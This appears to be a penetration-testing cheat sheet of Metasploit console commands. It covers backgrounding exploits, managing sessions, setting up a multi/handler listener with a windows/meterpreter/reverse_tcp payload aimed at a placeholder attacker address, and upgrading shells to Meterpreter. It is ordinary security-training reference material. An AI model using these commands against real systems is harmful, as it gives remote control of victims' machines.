 ### execute the exploit in the back ground 2 options
```
run -j
exploit -j 
```

### view backgrounded sessions
```
sessions -l
```

### make background session foreground
```
sessions -i <session #>
```

### Example: 
In Metasploit, select the exploit/multi/handler module and configure it to match the payload settings by using the following commands:
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST [IP ADDRESS]
set LPORT 4444
exploit -j
```

### Upgrading shells to Meterpreter
https://docs.metasploit.com/docs/pentesting/metasploit-guide-upgrading-shells-to-meterpreter.html#:~:text=If%20you%20have%20an%20existing%20session%2C%20either%20Meterpreter%2C,-u%20-1%20Or%20run%20the%20shell_to_meterpreter%20module%20manually%3A

If you have an existing session, either Meterpreter, an SSH, or a basic command shell - you can open a new Meterpreter session with:
```
sessions -u 3
```
To upgrade the most recently opened session to Meterpreter using the sessions command:
```
sessions -u -1
```
Or run the shell_to_meterpreter module manually:
```
use multi/manage/shell_to_meterpreter
run session=-1
run session=-1 win_transfer=POWERSHELL
run session=-1 win_transfer=VBS
```
If you want to upgrade your shell with fine control over what payload, use the PAYLOAD_OVERRIDE, PLATFORM_OVERRIDE, and on windows, PSH_ARCH_OVERRIDE. All 3 options are required to set an override on windows, and the first two options are required on other platforms, unless you are not using an override.
```
use multi/manage/shell_to_meterpreter
set SESSION 1
set PAYLOAD_OVERRIDE windows/meterpreter/reverse_tcp
set PLATFORM_OVERRIDE windows
set PSH_ARCH_OVERRIDE x64
```

